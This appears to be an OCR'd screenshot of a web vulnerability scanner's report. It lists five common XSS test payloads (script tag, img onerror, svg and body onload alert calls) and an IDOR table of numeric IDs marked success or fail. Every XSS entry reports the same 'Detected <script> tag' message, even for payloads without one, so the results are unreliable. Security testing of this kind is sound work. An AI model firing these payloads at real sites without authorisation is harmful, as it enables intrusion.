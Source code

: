 *Severity:* `High`
##### Payload: `<script>alert('XSS')</script>`
```
Detected <script> tag in response.
```

*Severity:* `High`
##### Payload: `"><img src=x onerror=alert(1)>`
```
Detected <script> tag in response.
```

*Severity:* `High`
##### Payload: `<svg/onload=alert(1)>`
```
Detected <script> tag in response.
```

*Severity:* `High`
##### Payload: `<body onload=alert('xss')>`
```
Detected <script> tag in response.
```

*Severity:* `High`
##### Payload: `"><svg onload=alert('xss')>`
```
Detected <script> tag in response.
```

---

### IDOR Test Cases

| # | Payload | Status | Severity |
|---|---------|--------|----------|
| 1 | 1 | Success | High |
| 2 | 2 | Success | High |
| 3 | 3 | Success | High |
| 4 | 4 | Success | High |
| 5 | 5 | Success | High |
| 6 | 6 | Fail | Low |
| 7 | 7 | Fail | Low |
| 8 | 8 | Fail | Low |
| 9 | 9 | Fail | Low |
| 10 | 10 | Fail | Low |

---